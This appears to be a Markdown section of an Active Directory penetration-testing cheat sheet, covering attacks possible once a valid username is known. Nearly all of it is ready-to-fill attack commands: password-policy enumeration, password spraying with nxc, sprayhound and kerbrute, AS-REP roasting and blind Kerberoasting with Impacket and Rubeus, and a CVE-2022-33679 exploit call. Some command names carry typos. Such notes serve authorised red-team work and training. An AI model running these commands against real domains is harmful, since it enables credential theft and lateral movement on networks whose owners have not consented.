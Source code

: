 # Valid user (no password)

## Password Spray
- Get password policy  (you need creds,but you should get the policy  first to avoid locking accounts)
  - default policy
    - `nxc smb <dc_ip> -u '<user>' -p '<password>' --pass-pol`
[https://www.thehacker.recipes/ad/recon/password-policy](https://www.thehacker.recipes/ad/recon/password-policy)
    - `Get-ADDefaultDomainPasswordPolicy`
    - `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> domain_policy`
  - Fined Policy (Privileged)
    - `ldapsearch-ad.py --server <dc> -d <domain> -u <user> -p <pass> --type pass-pols`
    - `Get-ADFineGainedPasswordPolicy -filter *`
    - `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> pso # can also be runned with a low priv account but less information will be available`
- user == password >>> Clear text Credentials
  - `nxc smb <dc_ip> -u <users.txt> -p <passwords.txt> --no-bruteforce --continue-on-success`
  - `sprayhound -U <users.txt> -d <domain> -dc  <dc_ip>   # add --lower to lowercase and --upper to uppercase. Add nothing to get only user=pass`
- usuals passwords  (SeasonYear!, Company123, ...) >>> Clear text Credentials
  - `nxc smb <dc_ip> -u <users.txt> -p <password> --continue-on-success`
  - `sprayhound -U <users.txt> -p <password> -d <domain> -dc  <dc_ip>`
  - `kerbrute passwordspray -d <domain> <users.txt> <password>`

## ASREPRoast
- List ASREPRoastable Users (need creds)
  - `MATCH (u:User) WHERE u.dontreqpreauth = true AND u.enabled = true RETURN u`
- ASREP roasting >>> Hash found ASREP
  - `GetNPUsers.py <domain>/ -usersfile <users.txt> -format hashcat -outputfile <output.txt>`
  - `nxc ldap <dc_ip> -u <users.txt>  -p '' --asreproast <output.txt>`
  - `Rubeus.exe asreproast /format:hashcat`
- Blind Kerberoasting >>> Hash found TGS
  - `Rubeus.exe keberoast /domain:<domain> /dc:<dcip> /nopreauth: <asrep_user> /spns:<users.txt>`
  - `GetUserSPNs.py -no-preauth "<asrep_user>" -usersfile "<user_list.txt>" -dc-host "<dc_ip>" "<domain>"/`
- CVE-2022-33679 @CVE@ >>> Lat move PTT 
  - `CVE-2022-33679.py <domain>/<user> <target>`
